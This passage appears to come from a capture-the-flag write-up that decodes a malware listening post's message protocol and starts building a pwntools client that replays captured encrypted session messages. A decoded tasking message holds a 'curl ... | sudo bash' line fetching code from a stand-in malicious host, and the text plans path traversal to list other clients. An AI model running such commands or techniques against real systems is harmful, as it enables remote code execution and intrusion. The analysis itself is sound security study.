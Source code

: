 In the final two messages we see how `COMMAND_FIVE` is used. Its parameters are a directory and filename. The LP returns with `PARAM_CONTENTS`, probably the contents of the path and filename supplied.  

```
	==== Message 6
	Length: 113 (b'G\x9d\xb8\xfc')
	Magic Start? True (b'\x18\x15\xe9\xd3')
		PARAM_CMD (2): COMMAND_FIVE
		PARAM_UUID (16): b'\x9f\xb1\x13\xfd\x7f,K\xa0\xb5\x8b\xe4A\xb9-v\x00'
		PARAM_DIRNAME (60): b'/tmp/endpoints/9fb113fd-7f2c-4ba0-b58b-e441b92d7600/tasking\x00'
		PARAM_FILENAME (11): b'task-NHPIB\x00'
	Magic End?: True (b'\xefZ\x80\xcb')

	==== Message 7
	Length: 65 (b'\x19I\xe7 ')
	Magic Start? True (b'\x18\x15\xe9\xd3')
		PARAM_CONTENTS (53): b'EXEC: curl http://qvpju.mal.invalid/usprn | sudo bash'
	Magic End?: True (b'\xefZ\x80\xcb')
...
```

We have now learned what commands 3, 4, and 5 do. Based on their behavior, we can give them better names:

```
COMMAND_THREE -> COMMAND_PWD
COMMAND_FOUR -> COMMAND_LS
COMMAND_FIVE -> COMMAND_CAT 
```

These names may or may not be accurate, but we can adjust these names as we play with them on the live LP. 

Because the client is able to specify a directory for `COMMAND_LS` and the client UUID is in the path, we might be able to run `COMMAND_LS` with `/tmp/endpoints` or even `..` and be able to see the other registered UUIDs.

### Building a Client

Now we can use what we've learned to interact with the Listening Post! Before we can start testing out the new commands, we need to initialize a session. That involves making a public key, sending a fake fingerprint to the LP, and then sending the init message. We *could* go through all that trouble or we can just copy the encrypted data for a session. Because we know the session key, we'll still be able to encrypt and decrypt future messages. 

[Pwntools](https://github.com/Gallopsled/pwntools) can handle connecting to the LP and sending/receiving messages. A quick template can be generated with:

```bash
$ pwn template --host <LP IP> --port 6666 > client.py
```

I chose to copy the first few encrypted messages from the `root` session. The encrypted client key, fingerprint message, and init message can all be sent as-is without needing any adjustments! 

```python3
def init():
    pubkey_message = bytes.fromhex('20d2a187ac369b6b4392360b97964a8c556830238976b988a8cb35b21d6c7618')
    fingerprint_message = bytes.fromhex('7d6f8318609692052338cca775d1be756f7dea94df002bc438420f915e29a90aa409697a4ea145a269619a5d5d014c844871ebda5d8b80be0f2aca07cdad2dee5caf6c8bc83b50a66364cf29b14e8a219a85975342ef8c463a91f11219ddb0bd0d2004df12234749496cd890a5186d7c699ceadecf019905431fef999c3254a8ab1dd7ed5dd2141878eacf')
    init_message = bytes.fromhex('30ebcf5f20a6d7d06d31c233560d18f13330be17ff8e896c5d61fde2644345cc997c9c627494423b042d545bf6f102a7f10f9b5856c83f49553d1a9cd0661c0d56b435459b046e571f488321f56c')

    io.send(pubkey_message)
    io.send(fingerprint_message)
```